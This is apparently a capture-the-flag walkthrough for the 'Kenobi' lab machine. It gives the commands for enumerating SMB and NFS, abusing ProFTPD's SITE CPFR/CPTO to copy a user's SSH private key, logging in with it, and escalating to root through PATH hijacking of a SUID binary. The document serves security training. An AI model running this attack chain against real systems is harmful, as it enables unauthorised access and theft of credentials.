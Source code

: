 # Kenobi

Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation. 

Set up environment IP as IP_Machine

```
export IP=10.10.184.151
```

![IP](./images/IP.png)

## Task 1 - Deploy the vulnerable machine

* Scan the machine with nmap, how many ports are open?
	
	```
	nmap -sV $IP | tee nmap-scan.txt
	```

	File scan resulted [here](./files/nmap-scan.txt)

	![task1-nmap](./images/task1-nmap.png)

## Task 2 - Enumerating Samba for shares

* Using the nmap command below, how many shares have been found?
	
	```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
	```  

	![task2-samba](./images/task2-samba.png)

* Once you're connected, list the files on the share. What is the file can you see?
	
	```
	smbclient //$IP/anonymous
	```

	![task2-smbclient](./images/task2-smbclient.png)

	Get the file [here](./files/log.txt)

	![task2-smbget](./images/task2-smbget.png)

* In our case, port 111 is access to a network file system. Lets use nmap to enumerate this. What mount can we see?
	
	```
	sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
	```  

	![task2-nfs](./images/task2-nfs.png)

## Task 3 - Gain initial access with ProFtpd

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

* What is the version?  
	
	```
	nc 10.10.65.169 21
	```

	![task3-version](./images/task3-version.png)

* How many exploits are there for the ProFTPd running?
	
	```
	searchsploit ProFtpd 1.3.5
	```

	![task3-sploit](./images/task3-sploit.png)


* We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

	```
	SITE CPFR /home/kenobi/.ssh/id_rsa  
	SITE CPTO /var/tmp/id_rsa
	```  
	
	![task3-copy](./images/task3-copy.png)

* What is Kenobi's user flag (/home/kenobi/user.txt)?

	* Lets mount the /var/tmp directory to our machine
	
		```
		mkdir /tmp/KenobiNFS
		sudo mount $IP:/var /tmp/KenobiNFS
		ls -la /tmp/KenobiNFS
		```
		
		![task3-kenobiNFS](./images/task3-kenobiNFS.png)

	*  We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.
	
		```
		cp /tmp/KenobiNFS/tmp/id_rsa .
		sudo chmod 600 id_rsa
		ssh -i id_rsa kenobi@$IP
		```
		
		Get the file [here](./files/id_rsa)

		![task3-id_rsa](./images/task3-id_rsa.png)

	* What is Kenobi's user flag (/home/kenobi/user.txt)?
		
		```
		cat /home/kenobi/user.txt
		```

		![task3-usertext](./images/task3-usertext.png)

## Task 4 - Privilege Escalation with Path Variable Manipulation

* What file looks particularly out of the ordinary?
	
	```
	find / -type f -perm -4000 -ls 2>/dev/null
	```

	![task4-SUID](./images/task4-SUID.png)

* Run the binary, how many options appear?
	
	```
	/usr/bin/menu
	```

	![task4-binary](./images/task4-binary.png)

* Strings is a command on Linux that looks for human readable strings on a binary. 
	
	```
	strings /usr/bin/menu
	```

	![task4-strings](./images/task4-strings.png)

* As this file runs as the root users privileges, we can manipulate our path gain a root shell.

	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu
	```

	![task4-privilege](./images/task4-privilege.png)

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

* What is the root flag (/root/root.txt)?
	
	![task4-rootTXT](./images/task4-rootTXT.png)
